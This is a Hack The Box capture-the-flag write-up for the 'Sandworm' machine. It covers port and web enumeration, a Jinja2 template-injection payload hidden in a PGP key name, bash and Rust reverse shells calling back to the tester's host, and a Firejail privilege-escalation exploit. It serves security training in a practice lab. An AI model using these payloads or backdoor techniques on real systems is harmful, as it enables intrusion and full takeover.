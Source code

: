 # Sandworm

- **Platform:** Hack The Box
- **URL:** https://app.hackthebox.com/machines/Sandworm
- **Difficulty:** Medium
- **OS:** Linux

## Enumeration

### Port & Service Enumeration


<details>
<summary>masscan</summary>

```
sudo masscan -p1-65535,U:1-65535 --rate=1000 -e tun0 10.10.11.218

Discovered open port 443/tcp on 10.10.11.218
Discovered open port 22/tcp on 10.10.11.218
Discovered open port 80/tcp on 10.10.11.218
```
</details>

<details>
<summary>nmap</summary>

```
nmap -sC -sV 10.10.11.218

22/tcp  open  ssh      OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp  open  http     nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to https://ssa.htb/
443/tcp open  ssl/http nginx 1.18.0 (Ubuntu)
|_http-title: Secret Spy Agency | Secret Security Service
|_http-server-header: nginx/1.18.0 (Ubuntu)
| ssl-cert: Subject: commonName=SSA/organizationName=Secret Spy Agency/stateOrProvinceName=Classified/countryName=SA
| Not valid before: 2023-05-04T18:03:25
|_Not valid after:  2050-09-19T18:03:25
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
</details>

### Web Enumeration

<details>
<summary>gobuster dir</summary>

```
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -u 'https://ssa.htb/' --no-tls-validation

/contact              (Status: 200) [Size: 3543]
/about                (Status: 200) [Size: 5584]
/login                (Status: 200) [Size: 4392]
/view                 (Status: 302) [Size: 225] [--> /login?next=%2Fview]
/admin                (Status: 302) [Size: 227] [--> /login?next=%2Fadmin]
/guide                (Status: 200) [Size: 9043]
/pgp                  (Status: 200) [Size: 3187]
/logout               (Status: 302) [Size: 229] [--> /login?next=%2Flogout]
/process              (Status: 405) [Size: 153]
```
</details>

## Foothold

### Web → `atlas` *(Firejail)*

#### Searching for Vulnerabilities

- the footer of the page says "Powered by Flask"
- the `/guide`-page has a section to verify signed PGP-messages
- when generating a new PGP keypair using `gpg --full-generate-key`, we can enter a name, an email-address and a comment; this information is displayed in a pop-up after successful verification by the site
- the output is not escaped, therefore a **Jinja2 template injection** is possible
    - https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2
    - https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti#rce-escaping

#### Exploitation

1. Generate a GPG keypair using `gpg --full-generate-key`, set the name to the following value:
    ```py
    {{''.__class__.mro()[-1].__subclasses__()[439](request.form.input,shell=True,stdout=-1).communicate()[0].strip()}}
    ```
    - `‘'.__class__.mro()[-1]` gives access to `<class 'object'>`, 
    - subclass 439 is `<class 'subprocess.Popen'>`, which allows us to do a RCE
    - `request.form.input` gives us access to the POST parameter `input` of the request
    - → the value of the POST parameter will be executed

2. Export the public key and enter it on the `/guide`-page in the verification form:
    ```
    gpg --armor --export <email> > mykey.gpg
    ```
    - `<email>` is the email that was specified during key generation

3. Sign any message using the generated keypair and enter it on the website:
    ```
    gpg --armor --clear-sign -u <email> -o <output file> <message>
    ```

4. Start a reverse shell listener using netcat:
    ```
    nc -lvnp 9002
    ```

5. Verify the signed message using the form, but intercept the request using burpsuite. Add the POST parameter `input` with the url-encoded payload for a reverse shell:
    ```bash
    bash -c '/bin/sh -i >& /dev/tcp/<your ip>/9002 0>&1'
    # url-encoded as a POST paramter:
    &input=%62%61%73%68%20%2d%63%20%27...
    ```

6. You should now have reverse shell access for the user `atlas`.
    - available commands very limited, hardly any write permissions
    - `cat /proc/1/cgroup` shows that we are in a [Firejail](https://github.com/netblue30/firejail) environment


## Lateral Movement

### `atlas` → `silentobserver` 🚩

#### Searching for Vulnerabilities

- `/etc/passwd` shows, that there is another user `silentobserver` with a home directory

#### Exploitation

1. `/home/atlas/.config/httpie/sessions/localhost_5000/admin.json` contains credentials for user `silentobserver`:
    ```json
    "auth": {
            "password": "quietLiketheWind22",
            "type": null,
            "username": "silentobserver"
        },
    ```

2. With these credentials, an SSH connection is possible for the user `silentobserver`, who has the user flag in his home directory 🚩
    - user is still in `jailer` group


### `silentobserver` → `atlas` *(unrestricted)*

#### Searching for Vulnerabilities

- the `/opt/tipnet/target/debug/tipnet` binary has the SUID bit set for user `atlas`
- the source code for `tipnet` can be found at `/opt/tipnet/src/main.rs`
- `main.rs` shows, that crate `/opt/crates/logger/src/logger.rs` gets imported
- `silentobserver` has write access to `logger.rs`
- there is a cron job running, which periodically compiles and runs `tipnet`
 
#### Exploitation

1. Edit `/opt/crates/logger/src/logger.rs` and insert the code for a reverse shell
    - https://stackoverflow.com/questions/48958814/what-is-the-rust-equivalent-of-a-reverse-shell-script-written-in-python
    <details>
    <summary>modified <code>logger.rs</code></summary>
    
    ```rust
    extern crate chrono;

    use std::fs::OpenOptions;
    use std::io::Write;
    use chrono::prelude::*;
    use std::net::TcpStream;
    use std::os::unix::io::{AsRawFd, FromRawFd};
    use std::process::{Command, Stdio};

    pub fn log(user: &str, query: &str, justification: &str) {
        let s = TcpStream::connect("<your ip>:9002").unwrap();
        let fd = s.as_raw_fd();
        Command::new("/bin/sh")
            .arg("-i")
            .stdin(unsafe { Stdio::from_raw_fd(fd) })
            .stdout(unsafe { Stdio::from_raw_fd(fd) })
            .stderr(unsafe { Stdio::from_raw_fd(fd) })
            .spawn()
            .unwrap()
            .wait()
            .unwrap();

        let now = Local::now();
        let timestamp = now.format("%Y-%m-%d %H:%M:%S").to_string();
        let log_message = format!("[{}] - User: {}, Query: {}, Justification: {}\n", timestamp, user, query, justification);

        let mut file = match OpenOptions::new().append(true).create(true).open("/opt/tipnet/access.log") {
            Ok(file) => file,
            Err(e) => {
                println!("Error opening log file: {}", e);
                return;
            }
        };

        if let Err(e) = file.write_all(log_message.as_bytes()) {
            println!("Error writing to log file: {}", e);
        }
    }
    ```
    
    </details>


2. Start a reverse shell listener using netcat:
    ```
    nc -lvnp 9002
    ```

3. After a while, we get reverse shell access for `atlas` in an unrestricted environment.

## Privilege Escalation

### `atlas` → `root` 🏁

#### Searching for Vulnerabilities

- An [exploit](https://gist.github.com/GugSaas/9fb3e59b3226e8073b3f8692859f8d25) exists for    Firejail 0.9.68, which can be used for privilege escalation

#### Exploitation

1. Open a second reverse shell for `atlas` like explained above.
2. Download the [exploit](https://gist.github.com/GugSaas/9fb3e59b3226e8073b3f8692859f8d25) on the target machine, e.g. using an python http server and wget.
3. Run the exploit using `chmod +x exploit.py && python3 exploit.py`.
4. In the second reverse shell, first run `firejail --join=<id>` *(the exploit will tell you the exact command)*, then `su -`.
5. We now have shell access for `root` and can claim the root flag! 🏁

